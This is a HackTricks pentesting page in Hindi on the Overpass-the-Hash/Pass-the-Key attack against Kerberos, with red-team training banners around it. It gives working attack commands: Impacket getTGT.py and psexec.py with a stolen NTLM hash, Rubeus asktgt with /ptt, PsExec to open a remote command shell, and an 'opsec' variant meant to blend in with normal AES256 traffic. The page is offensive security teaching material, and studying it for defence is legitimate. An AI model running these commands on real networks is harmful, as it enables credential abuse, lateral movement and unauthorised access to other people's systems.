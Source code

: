 # Over Pass the Hash/Pass the Key

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Overpass The Hash/Pass The Key (PTK)

**Overpass The Hash/Pass The Key (PTK)** हमला उन वातावरणों के लिए डिज़ाइन किया गया है जहाँ पारंपरिक NTLM प्रोटोकॉल प्रतिबंधित है, और Kerberos प्रमाणीकरण प्राथमिकता लेता है। यह हमला एक उपयोगकर्ता के NTLM हैश या AES कुंजी का उपयोग करके Kerberos टिकट प्राप्त करने के लिए किया जाता है, जिससे नेटवर्क के भीतर संसाधनों तक अनधिकृत पहुंच संभव होती है।

इस हमले को अंजाम देने के लिए, प्रारंभिक कदम लक्षित उपयोगकर्ता के खाते का NTLM हैश या पासवर्ड प्राप्त करना है। इस जानकारी को सुरक्षित करने के बाद, खाते के लिए एक टिकट ग्रांटिंग टिकट (TGT) प्राप्त किया जा सकता है, जिससे हमलावर को उन सेवाओं या मशीनों तक पहुंच प्राप्त होती है जिन पर उपयोगकर्ता के पास अनुमतियाँ हैं।

इस प्रक्रिया को निम्नलिखित कमांड के साथ शुरू किया जा सकता है:
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
AES256 की आवश्यकता वाले परिदृश्यों के लिए, `-aesKey [AES key]` विकल्प का उपयोग किया जा सकता है। इसके अलावा, प्राप्त टिकट को विभिन्न उपकरणों के साथ उपयोग किया जा सकता है, जिसमें smbexec.py या wmiexec.py शामिल हैं, जिससे हमले के दायरे का विस्तार होता है।

_ PyAsn1Error_ या _KDC cannot find the name_ जैसी समस्याओं को आमतौर पर Impacket पुस्तकालय को अपडेट करके या IP पते के बजाय होस्टनाम का उपयोग करके हल किया जाता है, जिससे Kerberos KDC के साथ संगतता सुनिश्चित होती है।

Rubeus.exe का उपयोग करते हुए एक वैकल्पिक कमांड अनुक्रम इस तकनीक के एक और पहलू को प्रदर्शित करता है:
```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
यह विधि **Pass the Key** दृष्टिकोण को दर्शाती है, जिसमें प्रमाणीकरण उद्देश्यों के लिए टिकट को सीधे कमांड करने और उपयोग करने पर ध्यान केंद्रित किया गया है। यह ध्यान रखना महत्वपूर्ण है कि TGT अनुरोध की शुरुआत घटना `4768: A Kerberos authentication ticket (TGT) was requested` को ट्रिगर करती है, जो डिफ़ॉल्ट रूप से RC4-HMAC के उपयोग को दर्शाती है, हालांकि आधुनिक Windows सिस्टम AES256 को प्राथमिकता देते हैं।

संचालन सुरक्षा के अनुरूप रहने और AES256 का उपयोग करने के लिए, निम्नलिखित कमांड लागू किया जा सकता है:
```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```
## संदर्भ

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
